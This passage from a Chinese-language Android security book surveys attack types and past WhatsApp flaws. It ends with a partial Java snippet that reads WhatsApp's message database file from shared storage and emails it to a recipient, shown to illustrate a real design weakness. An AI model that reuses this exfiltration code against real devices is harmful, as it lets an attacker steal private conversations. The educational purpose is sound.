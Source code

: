 # 第七章 安全

维基百科将安全定义为：“对伤害的抵抗程度或保护。它适用于任何脆弱且宝贵的资产，如人、住所、社区、物品、国家或组织。”

当我们思考软件安全时，脑海中可能会浮现黑客在黑色屏幕和绿色字体中工作的画面，他们快速地在控制台输入命令，以获取系统访问权限或破坏防火墙。但现实与好莱坞电影中的情景不同。**软件安全**指的是一个强大的系统，它保护用户的隐私，避免攻击者的不必要交互，并保持完整性。

计算机系统可能会遇到多种漏洞或攻击向量：

+   **后门**：后门是用于绕过应用程序安全性的点，通常是系统开发者留下的。2013 年，斯诺登曝光的一个丑闻暗示，国家安全局（NSA）拥有许多操作系统和平台的后门，包括谷歌的。

+   **拒绝服务攻击**：**拒绝服务**（**DoS**）是一种旨在使资源对用户不可用的攻击。DDoS 和 DoS 攻击属于这一类别：这些攻击包括向服务器发送请求，直到服务器无法处理所有请求，并停止向合法用户服务内容。

+   **直接访问攻击**：在这种攻击中，攻击者直接访问系统，通常目的是窃取文档或其中包含的相关信息。

+   **中间人（MitM）攻击**：在这种攻击中，第三方将计算机插入合法目的地和源头之间，并欺诈性地将自己设置为合法目的地。然后用户将所有信息发送给这个拦截器，拦截器通常又将信息重新发送到合法目的地，因此用户没有意识到信息已被截获。![Security](img/4666_07_01.jpg)

    MitM 攻击的拓扑结构

+   **篡改**：篡改是指恶意修改软件，通常目的是假装它是合法版本，并在后台执行一些不希望的操作（如监控或窃取信息）。

作为操作系统，Android 并非没有这些风险。实际上，考虑到其广泛的应用范围（全球有超过十亿个 Android 设备），它比其他平台面临更多的威胁。已经有一些知名（并被广泛使用）的应用程序因设计标志通常被用作软件设计不当可能发生的情况的例子。

# WhatsApp —— “不可为”的永恒展示

WhatsApp 可以展示应用程序可能呈现的一些标志。2011 年报告了一个漏洞，指出 WhatsApp 内的通信并未加密。连接到同一 Wi-Fi 网络的设备可以访问其他设备之间的通信。几乎花了一年的时间来修复这个漏洞，而这个漏洞并不是特别复杂难以解决。

那一年晚些时候，也报告了一个问题，允许攻击者冒充用户并控制他的账户。2012 年 1 月，一名黑客发布了一个网站，如果知道电话号码，就可以更改安装了 WhatsApp 的任何设备的状态。WhatsApp 为修复这个漏洞所采取的唯一措施是封锁了网站的 IP 地址（正如任何读者可以想象的，这远非一个有效的措施）。

WhatsApp 多年来存在的一个大问题是，消息存储在本地数据库中。这是在外部存储中完成的，任何其他应用程序（以及任何恶意黑客）都可以访问该文件。这个想法可能有它的理由（例如，保持备份），但实施结果是一场灾难。数据库总是使用相同的加密密钥进行加密，因此任何可以访问该文件的人都可以轻松地解密它。以下是一个获取数据库文件并通过电子邮件发送的示例操作：

```kt
  public void onClick(View v) {
      try {   
          AsyncTask<Void, Void, Void> m = new AsyncTask<Void, Void, Void>() {

              @Override
              protected Void doInBackground(Void... arg0) {
                  GMailSender sender = new GMailSender(EMAIL_STRING, PASSWORD_STRING);
                  try {
                     File f = new File(filePathString); 
                 if (f.exists() && !f.isDirectory()) {
                   sender.addAttachment("/storage/sdcard0/ WhatsApp/ Databases/msgstore.db.crypt", SUBJECT_STRING);
                            sender.sendMail(SUBJECT_STRING,
                                    BODY_STRING,
                                    EMAIL_STRING,
                                    RECIPIENT_STRING);

                 }    
                  } catch (Exception e) {
```